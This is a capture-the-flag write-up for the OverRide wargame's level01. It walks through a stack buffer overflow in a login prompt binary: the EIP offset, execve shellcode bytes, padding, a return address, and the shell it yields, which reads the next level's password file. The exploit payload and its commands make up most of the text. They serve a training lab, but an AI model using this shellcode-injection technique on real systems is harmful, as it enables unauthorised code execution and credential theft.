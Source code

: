 The program displays a prompt before asking the user for its username. The input is then checked and well, bad luck, my input is not valid. So let's look at the assembly code.

There are three functions: main(), verify_user_name() and verify_user_pass(). Please check the [source code](source.c) for more details. If we look closely, we can see that the credentials appear in hard copy in the code. Thus the expected username is "dat_wil" and the password is "admin". But we can also see that the code is broken: when filling in the proper password, the program still displays an error message. Anyway, this is not the way to pass this level.

Looking at the reconstructed source code, we see that the second fgets() writes up to 100 bytes in a local variable that can only hold 64 bytes. We can therefore carry out a buffer overflow attack and overwrite the address pointed to by EIP.

We find with the help of gdb that the offset of EIP is 80 bytes. Moreover, we find the address of the local variable (0xffffd6cc) using the ltrace command:
```
level01@OverRide:~$ ltrace ./level01 
__libc_start_main(0x80484d0, 1, -10316, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***")                                                = 39
printf("Enter Username: ")                                                              = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                                                     = 0x0804a040
puts("verifying username....\n"verifying username....)                                  = 24
puts("Enter Password: ")                                                                = 17
fgets("admin\n", 100, 0xf7fcfac0)                                                       = 0xffffd6cc
puts("nope, incorrect password...\n")                                                   = 29
+++ exited (status 1) +++
```

Now we just have to write or find a shellcode. On [this website](https://shell-storm.org/shellcode/), we find a lot of ready-to-use shellcodes. [This one](https://shell-storm.org/shellcode/files/shellcode-841.php) corresponds to what we want to do. It is 21 bytes long so we will need to complete our input with 59 bytes of padding in order to reach EIP. We will then pass the address of the local variable so that our shellcode becomes the next instruction in the program. The address must be written in the little endian convention in order to be readable by the computer. 

```
level01@OverRide:~$ python -c 'print "dat_wil\n" + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + 59 * "A" + "\xcc\xd6\xff\xff"' > /tmp/exp
```

In order to keep the shell open, we add a dash ('-') at the end of the cat command, in order to keep reading on the standard input until it meets an EOF ('^D') character:
```
level01@OverRide:~$ cat /tmp/exp - | ./level01 
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02    
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
We can now reach the next level with the command `su level02` and fill in the flag found as a password.